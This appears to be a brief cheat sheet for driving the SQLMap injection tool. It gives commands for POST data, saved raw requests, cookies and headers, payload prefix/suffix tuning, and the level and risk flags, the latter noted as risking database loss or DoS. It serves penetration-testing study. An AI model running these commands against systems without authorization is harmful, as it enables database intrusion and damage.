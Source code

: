 ## Building Attacks 
### SQLMap With HTTP
Developer tools and copy as curl
#### Post Request
```shell
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```
#### Full Request 
##### Example
```http
GET /?id=1 HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
If-Modified-Since: Thu, 17 Oct 2019 07:18:26 GMT
If-None-Match: "3147526947"
Cache-Control: max-age=0
```
##### SQLMap Commands
```shell
 sqlmap -r req.txt
```
#### Custom Requests
##### Cookies
```shell
 sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

```shell
sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```
##### Others
`--random-agent`
`--mobile`
`-method`

### Attack Tuning 
#### Prefix/ Suffix 
```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- "
```
#### Level/ Risk
##### Level
`--level= 1-5` 
Extends both vectors and boundaries being used.
##### Risk 
`--risk= 1-3`
Extends the used vector set based on the risk of causing problems target side like database loss and DoS
